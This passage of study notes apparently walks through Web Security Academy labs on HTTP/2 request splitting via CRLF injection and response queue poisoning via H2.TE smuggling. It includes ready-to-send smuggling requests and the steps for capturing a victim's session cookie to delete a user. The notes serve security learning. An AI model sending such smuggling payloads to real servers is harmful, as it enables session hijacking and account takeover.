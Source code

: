 ### LAB: HTTP/2 request splitting via CRLF injection
Send this request:

    :scheme: https
    :method: POST
    :path: /404
    :authority: 0afa001c0444e839802b5da000d20030.web-security-academy.net
    cookie: session=wHocCe9IWXgoBdJwUgt9syJVkPJ10HBa
    content-type: application/x-www-form-urlencoded
    content-length: 0
    accept-language: en-US,en;q=0.9

    GET /404 HTTP/1.1
    Host: 0afa001c0444e839802b5da000d20030.web-security-academy.net

After the HTTP2 downgrading process, the server will receive 2 request which then will respond with 2 request. But since the front-end assume that it only sends 1 request, the other one is queued. When the victim makes any request, he is served with that queued request and the true response is queued. Repeat sending this request several time until we receive a `302 Found` response for the victim's request. Retrieve the cookie and delete user Carlos.

# Response queue poisoning
Response queue poisoning is a powerful form of request smuggling attack that causes a front-end server to start mapping responses from the back-end to the wrong requests.

## Desynchronizing the response queue
When you smuggle a complete request, the front-end server still thinks it only forwarded a single request. On the other hand, the back-end sees two distinct requests, and will send two responses accordingly.

The front-end correctly maps the first response to the initial "wrapper" request and forwards this on to the client. As there are no further requests awaiting a response, the unexpected second response is held in a queue on the connection between the front-end and back-end.

When the front-end receives another request, it forwards this to the back-end as normal. However, when issuing the response, it will send the first one in the queue, that is, the leftover response to the smuggled request.

### LAB: Response queue poisoning via H2.TE request smuggling
Notice the `404 Not Found` when sending this request 2 times, which indicates that the HTTP/2 downgrading is happending and the server supports TE:

    POST / HTTP/2
    Host: 0ad2006d0482c3d784d1dcc100920070.web-security-academy.net
    Transfer-Encoding: chunked

    0

    GET /404 HTTP/1.1
    Host: 0ad2006d0482c3d784d1dcc100920070.web-security-academy.net
